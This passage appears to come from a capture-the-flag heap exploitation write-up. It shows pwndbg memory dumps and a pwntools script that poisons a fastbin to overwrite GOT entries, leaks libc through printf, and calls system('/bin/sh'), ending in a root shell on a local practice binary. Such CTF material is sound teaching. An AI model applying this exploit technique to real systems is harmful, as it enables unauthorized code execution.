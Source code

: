 ```
[0x602030] printf@GLIBC_2.2.5 -> 0x7f6741649810 (printf) ◂— sub    rsp, 0xd8
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6) ◂— push   4
[0x602040] read@GLIBC_2.2.5 -> 0x7f67416eb310 (read) ◂— cmp    dword ptr [rip + 0x2d2429], 0
[0x602048] __libc_start_main@GLIBC_2.2.5 -> 0x7f6741614750 (__libc_start_main) ◂— push   r14
[0x602050] malloc@GLIBC_2.2.5 -> 0x7f6741678180 (malloc) ◂— push   rbp
[0x602058] setvbuf@GLIBC_2.2.5 -> 0x7f6741663e80 (setvbuf) ◂— push   rbp
[0x602060] open@GLIBC_2.2.5 -> 0x400766 (open@plt+6) ◂— push   9 /* 'h\t' */
[0x602068] atoi@GLIBC_2.2.5 -> 0x7f674162ae90 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */

pwndbg> telescope 0x6020C0 20
00:0000│   0x6020c0 (itemlist) ◂— 0x50 /* 'P' */
01:0008│   0x6020c8 (itemlist+8) —▸ 0x101a030 ◂— 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
02:0010│   0x6020d0 (itemlist+16) ◂— 0x50 /* 'P' */
03:0018│   0x6020d8 (itemlist+24) —▸ 0x101a090 ◂— 0x323232323232 /* '222222' */
04:0020│   0x6020e0 (itemlist+32) ◂— 0x0
... ↓
06:0030│   0x6020f0 (itemlist+48) ◂— 0x10
07:0038│   0x6020f8 (itemlist+56) —▸ 0x101a110 ◂— 0x68732f6e69622f /* '/bin/sh' */
08:0040│   0x602100 (itemlist+64) ◂— 0x50 /* 'P' */
09:0048│   0x602108 (itemlist+72) —▸ 0x60200a (_GLOBAL_OFFSET_TABLE_+10) ◂— 0x0
0a:0050│   0x602110 (itemlist+80) ◂— 0x0
... ↓
```
delete(3), we will run system('/bin/sh')
```python
add(0x50, '000000')
add(0x50, '111111')
add(0x10, '.%17$p.')
add(0x10, '/bin/sh\0')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

add(0x50, '222222')
# add(0x50, cyclic(n=8, length=0x30))
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))

delete(2)
p.recvuntil('.')
libc.address = int(p.recvuntil('.', drop = True), 16) - 0x20840
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0

edit(4, 0x50, flat('\0' * 14, flat(libc.sym['system'])[:6]))
delete(3)
```
```
[+] Starting local process './pwn': pid 4572
libc @ 0x7f2aba05a000
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```
